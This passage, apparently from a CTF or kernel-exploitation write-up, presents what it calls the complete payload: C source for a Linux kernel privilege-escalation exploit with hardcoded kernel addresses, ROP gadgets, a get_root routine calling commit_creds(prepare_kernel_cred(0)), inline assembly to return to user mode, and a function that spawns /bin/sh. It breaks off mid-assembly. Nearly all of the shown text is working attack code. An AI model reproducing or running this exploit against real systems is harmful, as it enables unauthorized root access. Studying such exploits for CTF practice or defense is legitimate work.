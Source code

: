 完整paylaod

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/stat.h>
#include <fcntl.h>

#define commit_creds 0xffffffff81081290
#define prepare_kernel_cred 0xffffffff81081480
#define prdi_ret 0xffffffff8133791d
#define rax2rdi_prbp_ret 0xffffffff812858df
#define prcx_ret 0xffffffff810d7b73
#define rax2rdi_callrcx 0xffffffff81118825
#define rax2rdi_c_prbp_ret 0xffffffff812858dc
#define iretq 0xffffffff8100c93a
//#define swapgs 0xffffffff814ffe9c
#define swapgs_pfq 0xffffffff8100ce6a
#define back 0xffffffff8100bfad
#define prcx 0xffffffff810d7b73

char payload[1000] = {0};
int payload_len = 0;
unsigned long long user_cs, user_ss, user_rflags;
long long user_stack = 0;

void join_data(long long data)
{
    unsigned char buf[8] = {0};
    memcpy(buf, &data, 8);
    memcpy(payload + payload_len, buf, 8);
    payload_len += 8;
}

void join_str(char *buf)
{
    int len = strlen(buf);
    memcpy(payload + payload_len, buf, len);
    payload_len += len;
}

void launch_shell()
{
    execl("/bin/sh", "sh", NULL);
}

void get_root()
{
    char* (*pkc)(int) = prepare_kernel_cred;
    void (*cc)(char*) = commit_creds;
    (*cc)((*pkc)(0));
    asm(
        "nop\n"
        "mov %0, %%rax\n"
        "push %1\n"
        "push %2\n"
        "push %3\n"
        "push %4\n"
        "push %5\n"
        "push %6\n"
        "push %7\n"
        "jmp %%rax\n"
        :
```